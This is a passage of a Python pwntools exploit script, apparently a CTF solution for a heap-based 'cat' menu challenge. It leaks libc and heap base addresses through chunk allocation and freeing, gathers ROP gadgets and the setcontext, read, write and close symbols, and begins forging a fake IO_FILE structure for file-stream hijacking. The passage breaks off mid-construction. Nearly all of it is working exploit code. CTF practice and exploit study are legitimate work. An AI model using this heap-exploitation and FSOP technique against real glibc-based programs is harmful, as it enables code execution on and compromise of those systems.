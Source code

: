 ```python
def add(idx,size,cont):
    io.sendafter('mew mew mew~~~~~~', 'CAT | r00t QWB QWXF$\xFF\xFF\xFF\xFF')
    io.sendlineafter('plz input your cat choice:\n',str(1))
    io.sendlineafter('plz input your cat idx:\n',str(idx))
    io.sendlineafter('plz input your cat size:\n',str(size))
    io.sendafter('plz input your content:\n',cont)
def delete(idx):
    io.sendafter('mew mew mew~~~~~~', 'CAT | r00t QWB QWXF$\xFF\xFF\xFF\xFF')
    io.sendlineafter('plz input your cat choice:\n', str(2))
    io.sendlineafter('plz input your cat idx:\n',str(idx))
def show(idx):
    io.sendafter('mew mew mew~~~~~~', 'CAT | r00t QWB QWXF$\xFF\xFF\xFF\xFF')
    io.sendlineafter('plz input your cat choice:\n', str(3))
    io.sendlineafter('plz input your cat idx:\n',str(idx))
def edit(idx,cont):
    io.sendafter('mew mew mew~~~~~~', 'CAT | r00t QWB QWXF$\xFF\xFF\xFF\xFF')
    io.sendlineafter('plz input your cat choice:\n', str(4))
    io.sendlineafter('plz input your cat idx:\n',str(idx))
    io.sendafter('plz input your content:\n', cont)
    

login()
# p()
add(0,0x420,'aaa')
add(1,0x430,'bbb')
add(2,0x418,'ccc')
# p()
delete(0)
add(3,0x440,'ddd')
show(0)

#libc_base
io.recvuntil('Context:\n')
libc_base = u64(io.recv(6).ljust(8,b'\x00')) - 0x21a0d0
io.recv(10)
heapbase = u64(io.recv(6).ljust(8,b'\x00')) - 0x290
success("libc_base-->"+hex(libc_base))
success("heapbase-->"+hex(heapbase))
# p()
pop_rdi = libc_base + 0x000000000002a3e5 #: pop rdi ; ret
pop_rsi = libc_base + 0x000000000002be51 #: pop rsi ; ret
pop_rdx = libc_base + 0x000000000011f497 #: pop rdx ; pop r12 ; ret
pop_rax = libc_base + 0x0000000000045eb0 #: pop rax ; ret
ret=libc_base+0x0000000000029cd6
stderr=libc_base+libc.sym['stderr']
setcontext=libc_base+libc.sym['setcontext']
close=libc_base+libc.sym['close']
read=libc_base+libc.sym['read']
write=libc_base+libc.sym['write']
syscallret=libc_base+libc.search(asm('syscall\nret')).__next__()
success('syscall_ret-->'+hex(syscallret))

#fake IO
ioaddr=heapbase+0xb00
next_chain = 0
fake_IO_FILE = p64(0)*4
fake_IO_FILE +=p64(0)
fake_IO_FILE +=p64(0)
fake_IO_FILE +=p64(1)+p64(2)
fake_IO_FILE +=p64(heapbase+0xc18-0x68)#rdx
fake_IO_FILE +=p64(setcontext+61)#call addr
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)  # _chain
```